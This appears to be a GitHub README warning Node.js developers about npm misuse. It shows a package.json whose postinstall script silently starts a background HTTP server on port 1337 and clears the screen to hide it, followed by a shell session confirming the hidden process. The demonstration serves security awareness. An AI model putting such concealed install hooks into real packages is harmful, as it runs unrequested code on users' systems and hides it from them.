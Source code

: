 # don't do bad things with node

Node.js as a young technology is great but also great for misuse. Go (!) and support (!) **[THE NODE SECURITY PROJECT](http://nodesecurity.io/)**

# about this repo

Here I am showing misuse to make you (and me) more mindful. It is easy, just look insight the code of others, support projects like the node security project and do good things!

Let's dive into some code:

# NPM MISUSE #1

NPM is so great! [Isaac](https://github.com/isaacs‎) did a great job! But, you have to use it mindful. Look at the following example, it is a minimal npm `package.json` **but** if I write it like this, I am able to do whatever I want on your system if you are going to install my package. Like starting a webserver on port `1337` **and hiding it from you**.

```json
{
  "name": "test",
  "scripts": {
    "postinstall": "echo 'var http=require(\"http\");http.createServer(function (req, res) {res.writeHead(200, {\"Content-Type\": \"text/plain\"}); res.end(\"hi, i just started a background http server at your system. You should be patient! \");}).listen(1337);//console.log(\"Server running at http://127.0.0.1:1337/\")' | node & clear;"
  }
}
```


```shell
$ ps
  PID TTY           TIME CMD
  586 ttys000    0:00.55 /bin/zsh
  903 ttys001    0:00.07 /bin/zsh

$ npm install
$ 

$ ps
  PID TTY           TIME CMD
  586 ttys000    0:00.56 /bin/zsh
 1555 ttys000    0:00.05 node
  903 ttys001    0:00.07 /bin/zsh

$ curl localhost:1337
hi, i just started a background http server at your system. You should be patient! %
```

as you can see, I am piping a text string to node, putting the node process into the background and clearing the screen. So, please be mindful and support security projects.